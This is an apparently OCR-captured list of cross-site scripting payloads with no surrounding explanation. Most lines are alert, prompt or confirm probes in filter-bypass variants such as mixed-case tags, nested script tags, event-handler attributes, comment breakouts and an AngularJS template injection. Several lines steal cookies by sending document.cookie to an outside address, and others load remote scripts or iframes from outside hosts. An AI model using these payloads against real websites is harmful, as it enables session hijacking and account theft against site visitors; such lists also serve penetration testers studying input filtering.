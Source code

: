 <script>alert(1)</script>
</script><svg onload=alert(document.cookie)>
</span><script>alert(1)</script>    
<img src=x onerror=alert(1)>
<Script>alert(1)</Script>
<sCript>alert(document.domain)</sCript>
<script>alert(123);</script>
<script>alert("test");</script>
<script>alert(document.cookie)</script>
</script><script>alert(document.cookie)</script>
javascript:alert(document.cookie)
javascript:prompt(document.cookie)
'-alert(document.cookie)-'

"onmouseover=alert(document.cookie)//
{{$on.constructor('alert(1)')()}}
<Script>alert(document.cookie)</Script>
<sCript>alert(document.domain)</sCript>
<script>alert(document.cookie);</script>
<script>alert(document.cookie);</script>
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>
<script>new Image().src="http://192.168.1.6/?c="+document.cookie;</script>
<script>var i=new Image; i.src="http://192.168.1.6/?"+document.cookie;</script>
</script><script>alert(1)</script>
<img src="abc" onerror="alert(1)">
<img src="" onerror="alert(document.cookie)">
<img src='x' onerror='alert(document.cookie)' />
&lt;img src=0 onerror=alert(&#39;1&#39;)&gt;
&lt;img src=0 onerror=alert(document.cookie)&gt;
<svg/onload=alert(1)>
"><svg onload=alert(1)>
';alert('1');'
';alert('abc');'
<sc<script>ript>alert(1)</sc</script>ript>
<BODY ONLOAD=alert('1')>
<marquee onstart=alert(1)></marquee>
<audio src/onerror=alert(1)>
<audio src/onerror=prompt(123)>
<audio src/onerror=confirm(123)>
<script src="http://192.168.1.6/test.js" ></script>
<body onload=alert(123) >
<body onload=confirm(123) >
<body onload=prompt(123) >
--><svg/onload=alert(document.domain)>
--><body onload=alert(123) >
--><script>alert(1)</script>
--><img src=x onerror=alert('test')>
--><img src=x onerror=alert(document.domain)>
--><img src=x onerror=alert(document.cookie)>
--><img src=x onerror=prompt(document.domain)>
--><img src=x onerror=confirm(document.domain)>
<iframe src='https://testforiframe.site/'>
"><iframe src='https://testforiframe.site/'>
"><script src="https://testforiframe.site/"></script>
"><script>alert(document.domain)</script>
"><script>alert(document.domain + '\n' + "1")</script>
"><script>alert(document.domain + '\n' + "Name")</script>